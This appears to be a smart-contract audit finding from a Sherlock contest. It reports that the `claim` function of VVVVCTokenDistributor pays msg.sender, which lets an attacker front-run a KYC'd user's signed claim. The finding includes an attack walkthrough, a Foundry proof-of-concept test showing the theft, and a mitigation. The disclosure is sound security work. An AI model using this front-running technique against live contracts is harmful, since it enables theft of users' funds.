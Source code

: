 Sharp Ceramic Dolphin

High

# Attacker will steal funds from KYC'd users by frontrunning `claim`

### Summary

No access control or `msg.sender` validation allows an attacker to front-run honest `claim` calls to steal funds that are meant for the KYC'd address that the signature is signed for. This is due to the `claim` function sending funds to the `msg.sender`

### Root Cause

In [`VVVVCTokenDistributor.sol::106`](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/1791f41b310489aaa66de349ef1b9e4bd331f14b/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L106) there are no implemented access control or validation to make sure that the `msg.sender` is the KYC address that this signature was signed for. This function directly sends the funds to the `msg.sender`

```solidity 
function claim(ClaimParams memory _params) public {
        if (claimIsPaused) {
            revert ClaimIsPaused();
        }

        if (_params.projectTokenProxyWallets.length != _params.tokenAmountsToClaim.length) {
            revert ArrayLengthMismatch();
        }

        if (_params.nonce <= nonces[_params.kycAddress]) {
            revert InvalidNonce();
        }

        if (!_isSignatureValid(_params)) {
            revert InvalidSignature();
        }

        // update nonce
        nonces[_params.kycAddress] = _params.nonce;

        // define token to transfer
        IERC20 projectToken = IERC20(_params.projectTokenAddress);

        // transfer tokens from each wallet to the caller
        for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
                msg.sender,
                _params.tokenAmountsToClaim[i]
            );
        }

        emit VCClaim(
            _params.kycAddress,
            _params.projectTokenAddress,
            _params.projectTokenProxyWallets,
            _params.tokenAmountsToClaim,
            _params.nonce
        );
    }
```

### Internal pre-conditions

_No response_

### External pre-conditions

1. Trusted off-chain system must create a valid signature for a KYC'd user to `claim`

### Attack Path

Assume Bob is the KYC'd user that has tokens to claim and Alice is the attacker.
1. The trusted off-chain system creates a valid signature for Bob to claim his tokens with `claim` function, giving Bob the correct `ClaimParams memory _params` to input.
2. Bob calls the `claim` function with the given `ClaimParams memory _params`.
3. Alice notices this transaction and front-runs it, calling the `claim` function with the exact same parameters.
4. Alice's `claim` call goes through first.
5. Nonce check in the `claim` function passes for Alice's call as it is the first call.
```solidity
        if (_params.nonce <= nonces[_params.kycAddress]) {
            revert InvalidNonce();
        }
```
6. `_isSignatureValid` check passes as these parameters have been signed by the trusted off-chain system. 
```solidity
        if (!_isSignatureValid(_params)) {
            revert InvalidSignature();
        }
```
7. Function updates KYC addresses nonce.
```solidity
        nonces[_params.kycAddress] = _params.nonce;
```
8. Function sends the funds to `msg.sender`(Alice) in the following for loop.
```solidity
        for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
                msg.sender,
                _params.tokenAmountsToClaim[i]
            );
        }
```
9. Alice's transaction finalizes successfully.
10. Bob's transaction starts executing and it reverts at the nonce check due to Alice's transaction updating the nonce.
```solidity
        if (_params.nonce <= nonces[_params.kycAddress]) {
            revert InvalidNonce();
        }
```

### Impact

Attacker steals funds that are meant to be claimed by a KYC'd user.

### PoC

In the `VVVVCTestBase.sol` implement a new address to imitate an attacker.
```solidity
    uint256 sampleAttackerKey = 1234567812;
    address sampleAttacker = vm.addr(sampleAttackerKey);
 ```
 Implement and run a new test in the `VVVVCTokenDistributor.unit.t.sol`
```solidity
    function testClaimSingleRoundFrontRunAttack() public {
        address[] memory thisProjectTokenProxyWallets = new address[](1);
        uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

        uint256 claimAmount = sampleTokenAmountsToClaim[0];
        thisTokenAmountsToClaim[0] = claimAmount;

        VVVVCTokenDistributor.ClaimParams memory claimParams = generateClaimParamsWithSignature(
            sampleKycAddress,
            thisProjectTokenProxyWallets,
            thisTokenAmountsToClaim
        );

        //Attacker claim with params signed for KYC'd address
        claimAsUser(sampleAttacker, claimParams);
        //Expect revert with InvalidNonce() for KYC'd address' claim 
        vm.expectRevert(VVVVCTokenDistributor.InvalidNonce.selector);
        claimAsUser(sampleKycAddress, claimParams);
        
        // Assertions
        assertTrue(ProjectTokenInstance.balanceOf(sampleAttacker) == claimAmount);
        assertEq(ProjectTokenInstance.balanceOf(sampleAttacker), ProjectTokenInstance.balanceOf(sampleKycAddress) + claimAmount);
    }
```
Test runs successfully and assertions prove that the attacker has stolen funds that are meant for the `sampleKycAddress`

### Mitigation

Send the funds to the signed address (`_params.kycAddress`), an example of this is shown below.
```solidity
    function claim(ClaimParams memory _params) public {
        // rest of the function
        
        // transfer tokens from each wallet to the caller
        for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
                _params.KycAddress, // changed line here
                _params.tokenAmountsToClaim[i]
            );
        }
        
        //rest of the function
}
```